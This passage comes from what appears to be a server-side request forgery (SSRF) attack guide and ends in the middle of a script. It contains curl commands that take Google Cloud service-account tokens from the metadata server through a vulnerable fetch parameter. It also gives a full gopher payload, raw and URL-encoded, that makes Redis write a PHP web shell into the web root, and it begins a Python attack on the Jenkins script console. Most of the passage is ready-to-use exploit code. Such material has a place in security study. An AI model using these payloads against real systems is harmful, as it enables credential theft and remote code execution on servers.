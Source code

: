 #### Exploiting Google Cloud Service Accounts

```bash
# Request chain to access Google Cloud service account tokens
VULN_URL="https://vulnerable-app.com/fetch?url="

# 1. Get list of service accounts 
curl "$VULN_URL=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/" \
  -H "Metadata-Flavor: Google"

# 2. Get OAuth token for default service account
curl "$VULN_URL=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" \
  -H "Metadata-Flavor: Google"
```

### SSRF to Remote Code Execution

#### Attacking Redis via Gopher Protocol

```
# Redis RCE via configured webshell
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2431%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A
```

When URL-encoded and injected into a vulnerable parameter:

```
https://vulnerable-app.com/fetch?url=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252431%250D%250A%250A%250A%253C%253Fphp%2520system%2528%2524_GET%255B%2527cmd%2527%255D%2529%253B%2520%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A
```

This payload:
1. Flushes Redis database
2. Sets a key with PHP code content
3. Configures Redis to save its DB file in the web root
4. Names the file shell.php
5. Saves the database, creating a web shell

#### Attacking Jenkins Script Console

```python
import requests
import urllib.parse

# Target vulnerable application
target = "https://vulnerable-app.com/proxy"

# Jenkins groovy script to execute commands
jenkins_payload = """
def cmd = "id"
def process = cmd.execute()
println("Output: " + process.text)
"""

# First, get the Jenkins crumb for CSRF protection (if needed)
# (Simplified - actual implementation might need cookie handling)
crumb_response = requests.post(target, json={
```
